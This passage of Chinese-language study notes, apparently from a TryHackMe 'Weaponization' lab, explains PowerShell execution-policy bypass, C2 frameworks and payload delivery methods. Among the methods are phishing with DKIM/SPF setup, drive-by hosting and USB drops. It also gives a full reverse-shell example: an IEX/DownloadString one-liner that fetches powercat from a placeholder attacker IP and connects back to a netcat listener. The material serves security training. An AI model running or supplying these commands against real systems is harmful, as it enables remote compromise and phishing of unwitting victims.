     ```
    Write-Output "Welcome to the Weaponization Room!" # 输出字符串
    ```
    
    _(将代码保存为 `thm.ps1`)_
- **执行策略 (Execution Policies)**: PowerShell 的安全功能，控制脚本是否可以运行以及需要哪些条件。
    - **查看当前策略**: `Get-ExecutionPolicy` (默认通常是 `Restricted`)
    - **常见策略**: `Restricted` (不允许脚本运行), `RemoteSigned` (允许本地脚本，远程脚本需要数字签名), `Unrestricted` (允许所有脚本), `Bypass` (不阻止任何内容，无警告和提示)。
- **绕过执行策略**: 可以通过命令行参数临时绕过策略。
    - **使用 `-ex bypass`**: `powershell -ex bypass -File thm.ps1` (以 Bypass 策略执行指定脚本)
    - **直接执行远程脚本 (内存执行)**: 利用 `IEX` (Invoke-Expression) 和 `New-Object System.Net.WebClient` 下载并直接在内存中执行远程托管的 PowerShell 脚本，无需保存到磁盘，隐蔽性更高。
        - **示例：使用 Powercat 获取反向 Shell**:
            - **攻击者机器**:
                - 下载 `powercat.ps1` (例如从其 GitHub 仓库)。
                - 在包含 `powercat.ps1` 的目录启动 Web 服务器: `python3 -m http.server 8080`
                - 设置 Netcat 监听以接收 Shell: `nc -lvp 1337`
            - **目标机器 (在 PowerShell 中执行)**:
                
                PowerShell
                
                ```
                powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://攻击者IP:8080/powercat.ps1');powercat -c 攻击者IP -p 1337 -e cmd"
                # -c: 在执行命令后保持 PowerShell 窗口打开
                # IEX(...): 下载远程 powercat.ps1 并执行其内容
                # powercat -c ...: 执行 powercat 命令，连接回攻击者，并反弹一个 cmd shell
                ```
                
            - 执行后，攻击者机器上的 Netcat 将接收到来自目标的 Shell 连接。

#### 命令与控制 (C2) 框架与武器化 (C2 Frameworks and Weaponization)

C2 框架（如 Cobalt Strike, PowerShell Empire, Metasploit 的 Meterpreter）是红队在获得初始访问权限后用于管理和控制受控机器的核心平台。它们通常内置了强大的武器化模块，能够生成各种格式（包括上述脚本格式）的恶意载荷，以便于在不同场景下获取初始访问。这些框架极大地简化了武器化和后续后渗透操作的流程。

#### 载荷投递技术 (Payload Delivery Techniques)

武器化后的载荷需要被投递到目标系统并被执行。投递方式的有效性往往取决于社会工程、目标安全意识和现有防御措施。投递技术需要看起来尽可能合法和有说服力。

- **电子邮件投递 (Email Delivery / Phishing)**:
    - **方法**: 发送包含恶意链接或附件（如启用宏的 Office 文档、HTA 文件、PDF 文件等）的钓鱼邮件，诱导收件人点击链接或打开附件并启用内容。
    - **关键**: 邮件内容需要具有高度的欺骗性。红队可能需要构建自己的钓鱼基础设施（配置 DKIM, SPF, PTR 记录）或利用已攻陷的公司内部邮箱发送邮件。
- **网络投递 (Web Delivery / Drive-by)**:
    - **方法**: 在攻击者控制的、具有良好伪装或信誉的 Web 服务器上托管恶意载荷。通过钓鱼邮件、受感染的网站、搜索引擎结果等方式诱导受害者访问该 URL。
    - **示例**: 托管恶意 HTA 或 PowerShell 脚本。用户访问链接后，可能直接下载文件，或通过浏览器/插件漏洞自动执行。URL 缩短器可用于隐藏真实 URL。
- **USB 传输 (USB Transfer)**:
    - **方法**: 通过物理手段将恶意 USB 设备留给受害者，诱导其插入计算机。
    - **场景**: 会议、办公场所等。
    - **内容**: USB 可能包含伪装成重要文档的恶意可执行文件、自动播放脚本或利用 USB 设备本身的漏洞（如 BadUSB/Rubber Ducky 模拟键盘输入执行命令）。组织策略可能禁用 USB 使用。
    - **硬件示例**: Rubber Ducky, USBHarpoon, O.MG Cable 等。
